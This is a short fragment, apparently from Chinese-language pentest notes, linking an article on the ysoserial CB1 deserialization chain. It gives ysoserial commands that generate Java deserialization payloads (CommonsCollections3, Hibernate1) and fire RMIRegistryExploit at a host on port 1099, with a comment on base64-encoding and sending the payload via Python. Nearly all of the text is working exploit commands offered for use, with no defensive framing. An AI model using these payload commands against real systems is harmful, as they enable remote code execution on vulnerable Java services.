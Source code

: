 [『代码审计』ysoserial CB1 反序列化分析](https://mp.weixin.qq.com/s/Pbxw79a1klGTwwYgeDhYqw)

```bash
java -jar ysoserial-all.jar CommonsCollections3 "calc" > cc3.txt

java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 1.2.3.4 1099 CommonsCollections1 "calc.exe"


# 示例: hibernate-core-5.4.6.Final.jar这个包，利用ysoserial生成payload，执行以下命令
java -Dhibernate5 -cp hibernate-core-5.4.6.Final.jar;ysoserial.jar ysoserial.GeneratePayload Hibernate1 calc.exe > token.bin
## 可能需要 base64转码再转码用python发.
```